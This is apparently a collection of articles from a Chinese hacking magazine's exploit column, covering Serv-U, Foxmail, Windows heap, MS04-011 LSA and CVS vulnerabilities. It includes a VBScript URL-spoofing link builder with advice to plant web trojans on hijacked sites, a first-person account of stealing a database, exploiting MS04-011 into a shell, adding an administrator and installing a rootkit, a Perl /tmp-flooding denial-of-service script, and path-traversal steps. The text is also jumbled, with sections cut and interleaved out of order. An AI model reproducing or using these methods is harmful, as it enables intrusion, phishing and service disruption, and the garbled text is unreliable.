在打开文件时会先检查 site chmod 执行条件（目录可写等）。文件不存在时返回“550 %s: No such file or directory.”。漏洞点对应该错误分支，因此并不需要真的在远程服务器写入文件。

### 漏洞发现过程中的一些问题

#### 错误模式

按照典型漏洞模式看，属于 `sprintf(dst, "%s", src)` 这类模型。类似可疑模式包括：`strcpy(dst, src)`、`strcat(dst, src)`、`sprintf(dst, "%s", src)`。

> **脚本小子**：bugscan 是一组 IDA Pro 脚本，可分析指定二进制中危险库函数（如 strcpy 等）并生成 HTML 报告。

#### 自动化发现途径的障碍

在 UNIX/Linux 下很多格式串是静态字符串，较容易获取；但 Windows 中可能通过资源段和 `LoadString` 间接获得，导致自动化检查 `sprintf` 场景更困难。

### 你也可以发现漏洞

这里简要介绍漏洞发现过程中可使用的一些工具。反汇编平台以 IDA Pro 为代表，是通用且强大的基础工具。

## 欺骗浏览器域名欺骗

**脚本小子：**网页木马种植方案一直都存在很大的问题，欺骗过程需要技巧也需要时间，很多人觉得是一件很麻烦的事情，不过相信看完此文后，你的观点就会改变了。欺骗有时候也是非常简单的事情，现在就来告诉大家如何利用浏览器的最新漏洞来实现域名的欺骗……

域名欺骗有多种实现方法，本文所说的是利用客户端浏览器的漏洞来欺骗用户，多数浏览器都会存在这个漏洞。

漏洞描述：当用户通过浏览器访问一个 URL，如果这个 URL 是经过以下格式构造的，浏览器实际将访问经过构造后的恶意页面，而用户浏览器地址栏里所显示的却是虚假的 URL：

- URL 的构造格式为：`http://[URL_1][SPECIAL_CHAR]@[URL_2]`
- `URL_1`：用户所看到的地址，地址中不可以带“/”
- `SPECIAL_CHAR`：一个特殊字符（ASCII 码为某值）
- `URL_2`：恶意页面地址

```html
你可以看看这两个链接有什么区别：
<H1>链接1<script language="VBScript" src="deceive.vbs"></script></h1>
<H1>链接2<a href="http://www.163.com">www.163.com</a></h1>
</body>
</html>
```

这个网页源代码，其中链接1指向了一个 VBS 脚本，而链接2指向的是 163 站点。如果我们把链接1的 VBS 脚本改成下列代码：

```vb
' deceive.vbs（以下请根据实际情况自行修改）
url1="www.163.com"
url2="www.google.com"
text="www.163.com"
url="http://" & url1 & Chr(1) & "@" & url2 & "/"
dn="/"
mouseover="onMouseOver=""javascript:window.status='http://" & url1 & dn & "'"""
mouseout="onMouseOut=""javascript:window.status=''"""
click="onClick=""javascript:navigate('" & url & "')"""
style="style='cursor:hand'"
tag="<span " & style & " " & mouseover & " " & mouseout & " " & click & ">"
```

### 利用过程

首先看看下面的测试页面：

```html
<html>
<head>
<title>域名欺骗技术实例</title>
</head>
<body link="#0000FF" alink="#0000FF" vlink="#0000FF">
```

这里特别提一下 Halvar Flake 的逆向工程工具 obj_rec，可以把未知的结构和类以很直观的形式显示出来。下边就是一段 obj_rec 处理过后，手动命名后的一些代码片断，未经处理的代码：

```asm
.text:004192B2 AF8 lea eax, [esi+8469h]
.text:004192B8 AF8 push esi
.text:004192E0 AFC lea eax, [esi+8D78h]
.text:004192E6 AFC mov edi, eax
```

处理过后的代码：

```asm
.text:004192B2 AF8 lea eax, [esi+cmdStruc.lpServerIPAddress]
.text:004192B8 AF8 push esi
.text:004192E0 AFC lea eax, [esi+cmdStruc.strUserName]
.text:004192E6 AFC mov edi, eax
```

其中，cmdStruc 就是 obj_rec 处理过后的结构。

lpServerIPAddress 和 strUserName 是对结构体中变量手动命名的结果，这样处理过的代码对逆向分析很有帮助。最后对为这个漏洞做出工作的朋友们表示感谢，尤其是 igx、eyas 和 bkbll，并感谢 SST 所有的成员。

- 相关资源

```text
bugscam: http://sf.net/project/bugscam
halvar flake's obj_rec:
http://www.blackhat.com/html/bh-consulting/bh-consulting-tools.html
```

### 编后语

小编在看完了这篇文章后有两个很强烈的感觉：一是佩服作者敏锐的洞察力和高超的漏洞分析能力；二是赶快为自己的服务端打补丁。现在服务端已经出了新版本，新增了许多命令，功能更强大，大家赶快去升级吧！

```html
"&click&"<font color="#0000FF"><u>&text&</u></font></span>"

document.Write 说明：
url 是用来欺骗用户的地址；
url2 是实际访问地址；
text 是链接文字。
```

现在大家看到了吧，当我们点击这个测试页面的时候，链接1指向的是“www.google.com”，而且状态栏和地址栏里显示的是 http://www.163.com/，这就是域名欺骗漏洞的魅力。

我们可以想像，如果以上测试页面中链接1指向的不是 www.google.com，而是经过我们精心构造的网页木马，结果想必大家都很清楚吧。

不过，一个普通的个人网站没人会看的，这就需要我们把这种假链接添加到别的“有诱惑力”的网站页面中。假设我们入侵了一个比较大的网站，就可以把它的页面给修改了，把 `<a href="xxxxx.htm">xxxxx</a>` 改为自己的脚本引用代码。

页面目录下。仅此还不行，还要把自己木马网页的界面修改一下，也就是把原来链接到的页面加入到我们自己的木马网页中，并且木马网页里的所有链接等内容要和原来的页面一样，否则就会引起用户怀疑。

先把 google 网站首页源代码全部复制下来，添加到我们的网页木马中，然后把复制下来的代码中的图片或者链接文件都修改完整，例如 logo.gif 改为绝对地址。修改好后保存并上传到网页空间。

当我们进入这个网站后，点击修改过的链接，你会发现和原来的页面几乎一样。就当别人浏览这个网页时，他已经在不知不觉中了木马。

> 编后感：其实只要我们真正理解了域名欺骗的原理，知道如何利用此漏洞，一些欺骗就会变得非常简单。

**难度等级**：高  
**前置知识**：堆溢出基本原理

**脚本小子**：在一些朋友看来，溢出是个很复杂的问题，不过这种看法在你有了真正动手实践之后或许会得到很大改变。

## Windows heap 溢出新技巧

这里建议先看看 isno《Windows 下的 HEAP 溢出及其利用》这篇文章。本文主要介绍一个更好用的方法，很多 dcom heap exploit 和 Windows messenger heap exploit 都采用这种方法。

调试系统环境：vmware + windows 2000 sp4 中文版；工具：ollydbg 1.10、vc++ 6.0。

首先看一个有漏洞的程序（修改自 isno 的程序），然后对该程序进行编译：`cl winheap.c /link /release`。

再运行 winheap，用 ollydbg attach 到 winheap 进程，打开 View -> Executable modules，选择 KERNEL32，定位 SetUnhandledExceptionFilter 并在反汇编窗口查看调用流程。

```asm
77E6BC57  MOV ECX,DWORD PTR SS:[ESP+4]
77E6BC5B  MOV EAX,DWORD PTR DS:[77EC144C]
77E6BC60  MOV DWORD PTR DS:[77EC144C],ECX
77E6BC66  RETN 4
```

这里可以看出 Windows 2000 sp4 中文版默认异常处理指针是 0x77EC144C。继续跟踪 unhandled exception 发生时执行的代码。

```asm
77E9BDB1  MOV EAX,DWORD PTR DS:[77EC144C]
77E9BDB6  CMP EAX,EBX
77E9BDB8  JB SHORT KERNEL32.77E9BDC7
```

## 漏洞攻击 / EXPLOIT ATTACK

```asm
77E9BDBA  PUSH ESI
77E9BDBB  CALL EAX
```

我们将会用指向 shellcode 的指针覆盖 `0x77ec144c` 的内容，这个指针最后会被 `call eax` 来执行。但是这之前可以看到 `esi` 被压入栈，也许我们能用 `esi` 来定位 shellcode 的指针地址……我们写一个程序发送数据包到弱点程序，覆盖堆管理结构和寄存器值，用特定字节序列覆盖后续执行路径。

```asm
77FCC663  MOV DWORD PTR DS:[ECX],EAX
77FCC665  MOV DWORD PTR DS:[EAX+4],ECX
```

这段代码将会用 `0x01020304` 覆盖 `0x77ec144c` 的内容。如果 `0x01020304` 指向 shellcode，那么在触发异常并由系统默认异常处理时，shellcode 将会运行。输入命令查看 `esi` 指向内容，并进一步分析加载/未加载调试器时异常处理差异。

```asm
77E9BDDE  CALL DWORD PTR DS:[<&NTDLL.NtQueryInformationJobObject>]
77E9BDE4  CMP EAX,EBX
77E9BDE6  JL SHORT ...
77E9BDE8  TEST BYTE PTR SS:[EBP-57],4
77E9BDEC  JNZ ...
```

这里改动条件跳转即可让系统以为没有加载调试器。通过观察栈与寄存器，发现可用 `call [esi+0x4c]` 替代原覆盖值并跳转到我们布置的指令，再进入 shellcode。最终测试成功，在目标机器上同样可复现。

脚本小子：Foxmail 是国内普及率很高的邮件收发程序。本文分析了 Foxmail 5.0 中 PunyLib.dll 邮件头解析中的缓冲区溢出问题，讨论漏洞危害、厂商响应、安全意识与行业现状，并说明发布本文的目的在于推动安全知识普及与修补实践。


## Foxmail PunyLib.dll 远程缓冲区溢出漏洞

- 难度等级：高
- 适合对象：程序员、安全人士
- 前置知识：溢出知识、汇编知识、IDA Pro 4.5、Vdebug 3.0 使用经验、Python 使用经验、C 语言

### 前言

Foxmail 的这个漏洞公布后讨论激烈。需要说明的是，该漏洞并非仅在用户回复邮件时触发，用户收取邮件即可触发，使用远程管理器同样可触发，危险性较高。本文主要聚焦技术细节：漏洞发现、分析工具，以及编写利用代码时的注意事项。

### 漏洞发现

2003 年 9 月 1 日发现这个漏洞，涉及 Foxmail 5.0。作者描述了漏洞发现过程：在研究 sendmail 与邮件相关 RFC、并编写 Python 脚本测试过程中，对 Foxmail 进行测试时在 From 字段超长输入下触发异常（如 `0x61616161`），最终定位到 `punylib.dll`。

> 脚本小子：介绍了此前推荐 Python 进行 Blackbox 测试的原因，强调其在漏洞挖掘中的便利性。

### 漏洞分析

文中说明分析工具包括 IDA Pro 4.5、Vdebug 3.0 以及 Python 脚本，并给出 `punylib.dll` 中调用关系与反汇编位置。


以下是反汇编代码与注解。

```asm
; IDA/调试器截图中的反汇编与寄存器/调用流程
; 主要围绕 UrlToLocal 相关路径与栈调用关系
```

右栏说明该问题属于典型缓冲区溢出，并展示了长度比较逻辑；虽然存在检查，但检查长度大于目标缓冲区大小，仍导致溢出。

```asm
.text:10002089    cmp   ecx, 200h
.text:1000208F    jg    loc_10002200
```

### 攻击程序编写

描述 shellcode 构造约束（避免 `0x00/0x0a/0x0d/0x3a/0x2f` 等字符）、可用空间限制、利用 `Foxmail` 模块地址与 `punylib.dll` 字符串结尾补零特性，最终通过跳转执行后续 shellcode。

### 补丁修补

在官方补丁发布前，文中提出通过十六进制编辑器修改动态链接库进行静态修补。指出问题位于 `PunyLib.dll` 的 `UrlToLocal` 相关处理逻辑：当 URL 长度大于 `0x200`（512 字节）时应停止后续处理。

```asm
.text:10002089    cmp   ecx, 200h
.text:1000208F    jg    loc_10002200   ; 大于 0x200 字节则不处理
.text:10002095    test  ecx, ecx
.text:10002097    jle   loc_10002200
.text:1000209D    push  edx
.text:1000209F    call  _strdup
...
```

### 漏洞攻击

如果继续处理的话，最终会进入下面这段汇编代码：

```asm
text:10001A30 sub_10001A30 proc near
text:10001A30 var_104 = dword ptr -104h
text:10001A30 arg_0 = dword ptr 4
...
// 分配 0x104 长度的缓冲区，前面检测的长度是允许 0x200，所以如果超过 0x104 就会造成溢出
```

```asm
text:10001A4C mov [esp+114h+var_104], esi
text:10001A50 jle short loc_10001A73
text:10001A52 mov edx, [esp+114h+arg_14]
```

从上面的汇编代码我们可以知道，如果在前面检查长度的时候（`cmp ecx, 200h`）限制长度在 `0x100`，就不会出现溢出问题了。所以我们静态修改的目标应该是把 `cmp ecx, 200h` 改成 `cmp ecx, 100h`。

通过静态反汇编分析，我们知道有两个地方调用了 `sub_10001A30`，其中一个地方是 `.text:100022CE`。

接下来我们就要通过 16 进制编辑器修改 PunyLib.dll 了。我使用的编辑器是 Hex Workshop，打开动态链接库后，在编辑器里面我们找到这两个地方，在 PunyLib.dll 里面的偏移是 `0x0000208C` 和 `0x000022D1`，把这两个地方的 `02` 改为 `01` 然后保存就可以了。

> 编后：一次又一次漏洞发现者的原创作品，一次又一次漂亮前沿的技术文章，一个又一个最荡涤的安全故事……

## 抢先体验 Windows LSA 远程溢出

文 / 图 Boyfriend


最近在网吧上网，发现很多网吧都是用的同一家软件的网吧管理软件，下意识地就想到研究研究它。先到网吧刷卡登记，然后在网吧终端机登录。在登录的时候，我发现输入 ID 和 PASSWORD 的对话框后面是一个 HTML 页面，是那个公司的广告，上面还写了该公司网址……如果我们在 HTML 页面加入木马语句的话，那肉鸡得有多少呢？呵呵，为了这点偶然的想法，我开始尝试。

我打开了该软件公司的网址 `http://www.somesoft.com/`，登录的时候出现 `http://www.somesoft.com/logo/ad.htm`，访问了一下，发现跟网吧登录的背景页面是一样的。哈哈，这下可以肯定每个网吧电脑都会在登录的时候调用 `ad.htm` 页面了！这个可是最好的藏马的地方了！于是，艰苦的入侵过程开始……

我入侵有个习惯，先在网页中找脚本漏洞，看能不能注入，因为脚本漏洞的安全防护是现阶段很多网站都不太重视的问题，而系统漏洞一般是很快会被弥补的。来，我们一起来看看具体情况。在新闻中心处输入：

`http://www.xxx.com/news_browse.asp?ID=25`，返回：

```text
Microsoft JET Database Engine error '80040e14'

Syntax error in string in query expression 'ID=25'.

/news_browse.asp, line 52
```

也许是 Access 数据库，先来找数据库连接文件 `conn.asp`，找到的话有可能直接下载它的数据库的哦！先输入 `http://www.xxx.com/inc/`，返回 HTTP 404 - File not found，说明这个目录不存在了……

如果存在的话它会返回你没有权限访问这个目录（403）。猜了半天，把常见的脚本位置都猜过了，最后还是把 `conn.asp` 地址给猜出来了，地址为 `http://www.xxx.com/coon/conn.asp`，躲得还挺隐蔽。下面直接访问这个地址，出现 HTTP 500 错误，呵呵，没关系，这是因为 IE 返回的信息没有设置成详细信息方式，我们改过来，在 IE 的“工具→Internet 选项→高级”中把“显示友好 HTTP 错误”勾掉，再访问那个地址，终于暴库了！

中：这里的 `vsprintf()` 函数用于建立日志条目，由于对提供给这个函数的字符串参数缺少正确的边界缓冲区检查，超长字符串可导致缓冲区溢出。部分 RPC 函数接收此字符串作为参数并尝试写调试日志文件，利用这些 RPC 函数，可能以 System 权限在系统上执行任意指令。

上面是从绿盟获得的漏洞信息，可以看出这个跟 RPC 有关。如果这样的话，135 端口应该是开放的才能利用，而且目标机器是开放 135 的，正好可以测试。现在就可以拿这个新东西试试，如图 1 所示。


图 1

猜到数据库的地址为 `www.xx.com/database/#zwgd_server.cgi`，用 FLASHGET 下载下来把文件改为 `data.mdb`，再用 Office 读取，成功获得新闻管理员的 PASS 和 ID！好，成功了一步了。接下来猜后台，猜了多次也没有猜到，包括 `chklogin.asp` 这些都猜了，就是猜不到，郁闷（其实从数据库后缀为 cgi，可以看得出来，管理员还是有一点安全意识的），看来只能从系统漏洞入手了！

我们可以从图 1 中看出这个程序对 EN、CN 的 2K 和 XP 都有效，爽！迫不及待地开始测试。我使用的参数是 `ms04011 0 ip`，成功溢出后开一个端口为 1234 的 Shell，程序会显示：


先扫描端口，发现开了 25、53、80、110、135、139、445、1433 这几个端口，先分析目标是用的何种 MAIL 系统，Telnet 上去，提取 Banner，发现是 Web-EasyMail，一个挺安全的 MAIL 系统，再破解了一些 SQL Server 的口令也没有猜出来，极度郁闷中——就在绝望时 S8A 给我发来消息说他把 MS04011 的漏洞利用程序写好了，正好可以帮他测试一下（详细代码请查看光盘“源代码”栏目，按照文章名查找即可）。

假如是 `Ret value = 1727` 的话，就说明溢出成功，也有是出现 1726 的，但是出现 1726 的时候都没有溢出成功，不知道是什么问题。看见了 1727，赶快用 nc 连接对方的 1234 端口，成功得到权限！如图 2 所示。

好，我们来看看这个漏洞利用程序！这是针对 CN 和 EN 的，从 HTTP 返回的错误信息可以看出目标机器是中文版的 Windows，再 GET IIS Banner，是 IIS5，哈，这下正好可以利用这个程序。在这之前，我们先来看看这个漏洞的描述：


图 2

Microsoft Windows LSA 是本地安全授权服务（LSASRV.DLL）。LSASS DCE/RPC 末端导出的 Microsoft 活动目录服务存在一个缓冲区溢出，远程攻击者可以利用这个漏洞以 SYSTEM 权限在系统上执行任意指令。一些活动目录服务在 Windows 目录中的“debug”子目录里生成调试日志文件，在 LSASRV.DLL 实现的记录函数写信息条目到日志文件中；

现在来检查一下获得的权限是什么类型权限，添加了一个用户，显示命令成功完成，再加到 Administrators 组也成功了，这下可以肯定是 System 权限了，后来我给目标种了一个 Rootkit 就走人了，等到有需要的时候好好“利用”这台机器！哈哈，看来 MS04011 的危害一点也不比 RPC DCOM 溢出差啊，网管人员可要注意了！

**脚本小子：** 几个月前，KKQQ 首先发现了 Serv-U 的远程缓冲区溢出，并在本刊发布了漏洞分析。当时由于 Serv-U FTP 的使用范围非常广，所以该漏洞造成了很大的危害，很多虚拟主机服务商因为都是用的这个 FTP 服务器，所以几乎都被这个漏洞入侵过，Serv-U 的厂商也赶紧发布了补丁。可惜，当网络上各服务器管理员都还在忙着为 Serv-U 打补丁的时候，最新的漏洞又出现了！网络，再一次陷入恐慌，你知道是什么漏洞吗？

| 项目 | 内容 |
|---|---|
| 适合读者 | 程序员、安全爱好者 |
| 前置知识 | Windows 缓冲区溢出技术知识 |
| 难度等级 | 高 |

## Serv-U v5.0.0.4

### 恶性缓冲区溢出分析

### Serv-U v5.0.0.4 and prior 畸形文件名远程溢出

> Author: eyas `<eyas at xfocus.org>`  
> Discover: Der Ago `<maillist at bastart.eu.org>`

这个漏洞在 v5.0.0.9 中已经修补，最新的版本已经不能构成危害。虽然漏洞比较简单，但要有效地利用却是比较困难的。要触发这个漏洞必须有一个没有被锁定在根目录的账号，因为 Serv-U 是在处理畸形文件名时产生的栈溢出，所以用能带目录名/文件名的命令都可以触发它。

```asm
text:004417F0      push    5Ch
text:004417F2      mov     ecx, [ebp+dest]
text:004417F5      inc     ecx
text:004417F6      push    ecx
text:004417F7      call    j__strchr_0
text:004417FC      add     esp, 8
text:004417FF      mov     [ebp+dest], eax
...
text:00441802      jmp     short ...
```

以下我们基于 v5.0.0.0 简单分析一下。溢出发生在 `sub_4412DC` 函数，在用户权限检查之前，相关部分汇编代码如下：

> **脚本小子：** 汇编代码中的 `[ebp+src]` 和 `[ebp-0x1084]`、`[ebp+dest]` 和 `[ebp-0x10]`，`[ebp+src]` 中的内容是相关命令操作串带的文件名\目录名的全路径。例如你发送命令是 `size xfocus.txt`，假设当前账号的根目录是 `c:\`，那么 `[ebp+src]` 中的内容就是 `c:\xfocus.txt\`。

- 1. 判断前两个字节是否都是 `0x5C`，是的话继续往下搜索 `0x5C`。

```asm
text:004417BD   movsx   edx, [ebp+src]
text:004417C4   cmp     edx, 5Ch
text:004417C7   jnz     short loc_441804
text:004417C9   movsx   ecx, [ebp+var_1083]
text:004417D0   cmp     ecx, 5Ch
text:004417D3   jnz     short loc_441804
text:004417D5   push    5Ch
...
text:004417EC   test    edx, edx
text:004417EE   jz      short loc_441818
```

如果全路径的第一个字节不是 `0x5C`，那么搜索第一个 `5C` 出现的地址，保存至 `dest`：

```asm
text:00441804 loc_441804
text:00441804      push    5Ch
text:00441806      lea     eax, [ebp+src]
text:0044180C      push    eax
text:0044180D      call    j__strchr_0
text:00441812      add     esp, 8
text:00441815      mov     [ebp+dest], eax
```

- 2. 判断 `[ebp+dest]` 值是否不为 0，是的话继续。

```asm
text:00441818 loc_441818
text:00441818      mov     edx, [ebp+dest]
text:0044181B      test    edx, edx
text:0044181D      jnz     short loc_441828
```

- 3. 取 buffer 地址到 `ebx`，继续。下面就是开始有趣的循环了。

```asm
text:00441828 loc_441828
text:00441828      lea     ebx, [ebp+src]
text:0044182E      jmp     short loc_441897
```

- 4. 循环。  
  详细代码请查看光盘“源代码”栏目，按照文章名查找即可。

其实流程比较简单。


我们将上述汇编代码还原成 C 语言的话，大致如下：

```c
int var[3];
char *pDest;
int var_14;
char buff[0x1070];
char *ptr, *pSrc;
char *pTmp, *pSearch;
int len, count, num;

if (buff[0]=='/' && buff[1]=='/') {
    pDest = strstr(buff+2, "/");
    if (pDest) pDest = strstr(pDest+1, "/");
} else {
    pDest = strstr(buff, "/");
    if (!pDest) exit;
}

pSearch = buff;
while (strstr(pSearch, "\\..")) {
    ptr = strstr(pSearch+1, "\\");
    if (!ptr) {
        pSrc = buff+4;
    } else {
        pSrc = ptr;
        count = 1;
        pTmp = buff+1;
        num = ptr - pSearch;
        while (count < num) {
            len = (*pTmp != '/') ? ... : ...;
            pTmp++;
            count++;
        }
    }
}
```

```c
memmove(pDest, pSrc, len);
```

从上述代码中可以看到，需要 `buff` 中有“\\...”才能进入循环。假如我们发送的命令是 `size \\...\\xfocus.txt`，那么 `[ebp+src]` 中的内容就是：

```text
c:\\xfocus.txt\\
...
src
dest
```

在经过一次 `memmove` 后，`[ebp+src]` 中的内容就变成 `c:\\xfocus.txt\\` 了，循环也就随之结束。假如 `dest<=src`，则上述代码永远都不会出问题；但假如 `dest>src` 呢（这里的大于小于指内存地址高低）。

假如我们发送如下命令 `size \\...\\aaaa\\xfocus.txt`，`[ebp+src]` 中的内容分两种情况：

- （1）用户被锁定在根目录：`c:\\...\\aaaa\\xfocus.txt\\`
- （2）用户没有被锁定在根目录：`\\\\...\\aaaa\\xfocus.txt\\`

第一种情况 `dest<src`。第二种情况 `\\\\...\\aaaa\\xfocus.txt\\` 在 `memmove` 之后，内容变成 `\\\\...\\aaaa\\aaaa\\xfocus.txt\\`。在接着的死循环中，`dest` 和 `src` 地址都不会变，唯一改变的只有 `memmove` 的长度。

所以要触发这个溢出，必须有一个没有被锁定在根目录的账号。即使这个账号没有任何读写权限，或者有其他方法让锁定账号也能触发。

这是个 Stack 溢出，直接覆盖 SEH 或者 `sub_4412DC` 函数的返回地址就可以了吗？非也。因为陷入的是一个死循环，且某些关键变量会在溢出时被覆盖。

- 1. 覆盖 `sub_4412DC` 函数的返回地址：覆盖之后跳不出死循环，函数不会返回。
- 2. 覆盖 SEH：SEH 离 `[ebp+src]` 有约 `0x3DXX`，需一直循环 `memmove` 直到 SEH 被覆盖并触发异常。
- 3. 猜测 SEH 地址并覆盖在 `[ebp+dest]` 上：在死循环条件下也难以稳定触发。
- 4. 猜测存放 `memmove` 函数返回地址的位置：需要结合调用时栈布局分析。


## 漏洞攻击 EXPLOIT ATTACK

栏目编辑 / 脚本小子 / scriptsboy@hacker.com.cn

eip0 -> memmove 函数返回后的 EIP  
eip1 -> sub_4412DC 函数返回后的 EIP  

猜测的地址落在哪段，对程序流程的影响都是不同的。

- A. eip0 我们可以控制，程序将转入执行我们的代码（A 区域的范围取决于 X 的长度，X 的长度取决于 shellcode 的结构，但范围应该不会大于 0x1074）。
- B. eip0 无法控制，但 src 前面的几个关键字节“\...”将被我们改写，eip1 受我们控制，所以程序将退出死循环；在 sub_4412DC 函数返回后，程序将转入执行我们的代码（B 区域的长度只有 0x1C）。
- C. [ebp+dest] 将被再次改写，写入的内容比较难控制。
- D. 程序陷入死循环（Serv-U 将失去响应）或崩溃。

在最初的测试中，memmove 函数的 retloc 地址（即存放 eip0 的地址）在同一版本的 Serv-U 中每次都是固定的。结果我误认为它始终都是固定的，后来才发现我错了。由于 memmove 函数的 retloc 地址是动态的，用这种猜测 retloc 地址的方法成功率极低。

（5）还有别的办法吗？有的。

| ver | src | dest | retloc_addr |
|---|---|---|---|
| 4.0.0.4 | 012f7f34 | 012f7f44 | 012f7f18 |

dest 与 src 的距离，取决于你的 shellcode 的结构，例如……


假如我们把 dest 的低一位字节覆盖为“\x01”，会发生什么事？src 与 retloc_addr 的地址是固定的 0x1C，dest 与 src 的距离最小也要 0x10，所以这种办法的限制条件：

```c
((dest & 0xFFFFFF00) == (retloc_addr & 0xFFFFFF00))
((src & 0xFF) >= 0x1C && (src & 0xFF) <= 0xEF)
```

不同的命令，在不同的 Serv-U 版本中，造成的 retloc 地址的低字节不一定相等；但同一命令在同一 Serv-U 版本中，造成的 retloc 地址的低字节似乎总是固定的。后来测试 4.0.0.4 到 5.0.0.4 的所有命令，发现只有一个命令比较符合我们的要求：

| command | 4004 | 4100 | 4103 | 5000 | 5004 |
|---|---:|---:|---:|---:|---:|
| site chmod | b4 | 8c | 8e | 2c | 2c |

这种地址结构，就比较适合用半连续覆盖的方法来实现不同版本之间的通用，所以使用 site chmod 命令来触发溢出，采用覆盖 dest 低字节，成功率应该是非常高的！

好了，大概就介绍到这里，大家有兴趣的话可以自己测试一下，现在网络上已经有这个溢出程序在传播，大家可以用自己机器装一个版本溢出试试哦！

**脚本小子：**最近，Linux 环境下执行的软件频频报警，置于各大学术机构超级电脑中心的 Linux 及 Solaris 服务器频遭不明人士闯入。CVS（Concurrent Versions System）软件在 Linux 系统下十分常见，许多大型的开源代码发展计划都以 CVS 软件建置服务器，把正在开发中的源代码储存起来。CVS 作为开源代码的重要标志软件之一，其安全问题至关重要，可以想像各种超级计算机一旦被攻击将会是怎样的后果。

| 项目 | 内容 |
|---|---|
| 适合读者 | 开源系统使用、维护者 |
| 前置知识 | CVS 基本使用 |
| 难度等级 | 中 |

## CVS 漏洞构成 开源系统

文／风之扬


CVS 即 Concurrent Versions System，或“并发版本管理系统”，是一种适合任何软件开发者使用的强大工具。它有 for Linux 和 for Windows 两个版本。CVS 服务器一般架设在 UNIX 系统上，虽然也有可以在 Windows 上运行的服务器版本，但是其性能表现远不如 UNIX 上面表现得好；但是 CVS 的客户端在 Windows 下却可以工作得很好，这种方式适合各种操作系统的综合管理。

利用这个系统，我们可以记录和跟踪对软件代码的改动，使得代码管理更富有条理，并能够轻松地将代码返回到以前版本的状态。在 CVS 知识库中存储软件代码之后，我们能够方便地标记出软件开发的特定阶段，记录不同时间对代码所做的改动，并能够提取出指定文件在 6 个月或 8 个月之前的内容。

CVS 能够帮助管理大型分布式软件开发工程。这类软件开发工程由不同地理位置的多个开发者协作完成，源代码开放的软件工程往往具有这种特点。在这种工程中，跟踪记录某个程序员对代码整体所做的改动往往是非常困难的，CVS 为此提供了一种非常优秀的解决办法，它允许每一个开发者对原源代码的副本进行修改，然后把改动结果合并到主代码树。

最后，CVS 还支持“代码分支”。代码分支实际上是从主代码树分出的支流，通常起源于修正旧版代码的 BUG。由于 CVS 内建了对版本进行编号和标记的机制，它使得开发者能够方便地从主代码树抽取出代码片断，同时仍保持对不同版本的跟踪，甚至代码修改完成后还能够方便地将分支合并到主代码树。

可见，CVS 不但能帮助我们提高代码的质量，还能帮助我们更深入地认识代码的结构和体系，提高软件稳定性也已经完全超过了 CVS 的职责范围。但是，用户针对这个软件的读写操作是很频繁的，如建立 CVSROOT 目录，因为这里涉及到用户对 CVSROOT 里的文件读写的权限问题，包括文件的更新、提交、冲突的解决、分支的派生、增删文件等，可这也带来了一定的安全隐患。目前比较常见的漏洞是在 CVS 中的非常规输入行缺陷导致堆溢出，攻击者能够利用此漏洞在运行中的 CVS 服务器上执行同等权限代码。下面我们一起来看看 CVS 常见的漏洞及攻击方法。

### DoS 漏洞

拒绝服务攻击是一种比较常见的攻击方式，这种攻击使服务器充斥大量要求回复的信息，消耗网络带宽或系统资源，导致网络或系统不胜负荷以至于瘫痪而停止提供正常的网络服务。

CVS 下就存在这样一个小漏洞，在每个 CVS 的操作过程中，用户都会以操作用户的身份在 /tmp 下临时建一个锁定了的目录 CVS_servPID。但是，如果有人建了大量的同类文件就会使 CVS 的操作出错，出现以下提示。

```perl
cannot change permissions on temporary directory
Operation not permitted

#!/usr/bin/perl
$min=400;
$max=4000;
for($x=$min;$x<=$max;$x++){
  open(CVSTMP,">>/tmp/CVS_serv$x") or die("/tmp/CVS_serv$x");
  chmod(0600,"/tmp/CVS_serv$x");
  close(CVSTMP);
}
```

如果要利用这些漏洞，需要能够预测相应的临时文件名。一般都是在 /tmp 目录下建立大量可能出现的临时文件。通过以上测试，CVS 服务器就“掉得大了”。

### 远程路径泄露漏洞

CVS 客户端在处理路径名时缺少充分处理，远程攻击者可以利用这个漏洞提供恶意 CVS Server 信息，在客户端建立任意文件。问题是由于在进行升级或校验操作时，CVS 服务器在 RCS diffs 中提供绝对路径名，当客户端处理时可导致在客户端系统中建立任意文件。

另外，当 CVS 服务器处理来自客户端的相对路径名时，如果相对路径名中包含“../”字符，可使用户绕过 CVSROOT 目录，直接查看系统中部分文件内容。

攻击方法很简单，在输入相对路径时，加入包含“../”字符的相对路径名就可以绕过 CVSROOT 目录，查看系统中部分文件内容。

### 堆溢出漏洞

在远程路径漏洞的基础上，如果源代码剖析信息的过程出差错时，可能让黑客趁虚而入。根据德国安全公司 e-Matters 报告，就是“自远端执行存在 Subversion 服务器上的程序，可能进而导致储存遭黑客控制”。由于存在安全漏洞，开发人员可以在 CVS 服务器上自主执行代码。如果有人利用这个漏洞篡改存储在 CVS 服务器上的开发代码，就有可能给 Linux 开放项目造成损失。如果能够成功利用这个漏洞，攻击者就会取得相当于 CVS 服务器用户的权限，这就意味着他可以访问存储在 CVS 服务器上的所有代码。

而开发人员一般在开始工作之前总是先与 CVS 服务器取得联系，并对他电脑上的代码进行更新。如果有攻击者篡改了 CVS 服务器上存储的 Linux 代码，开发人员有可能会在被篡改的代码基础上开始工作。

对于那些允许匿名访问的开发项目而言，危险更大一些。Concurrent Versions System（CVS）是一款开放源代码的版本控制软件。

CVS 服务器在处理用户提供的带有“modified”和“unchanged”标记的 Entry 行时存在问题，远程攻击者可以利用这个漏洞对 CVS 服务程序进行基于堆的溢出攻击，精心构建提交数据可以以进程权限在系统上执行任意指令。当客户端发送一条 Entry 行给服务器，会额外增加字符来标记 Entry 是否为已修改的或未修改的。检查标记是否粘附存在问题，这允许插入 “M” 或 “-” 字符到用户提供的这些函数的字符串中间。

利用 malloc() off-by-one 技术可以使部分函数触发缓冲区溢出，传递给 malloc() 的参数没有进行充分边界检查，可能导致攻击者构建特殊的图像文件，当用户使 CVS 进程以权限在系统上执行任意指令，会导致函数多次被调用来覆盖多个字节。

漏洞测试程序下载地址：http://www.nsfocus.net/index.php?act=sec_bug&do=view&_bug_id=6466&keyword=CVS

由于代码篇幅较长，现摘录如下部分以供参考（以下程序可能带有攻击性，仅供安全研究与教学之用）：

```c
main(int argc, char *argv[])
{
    char *buf1, *buf2;
    ...
}
```

### 漏洞攻击

## EXPLOIT ATTACK

栏目编辑 / 脚本小子 / scriptsboy@hacker.com.cn

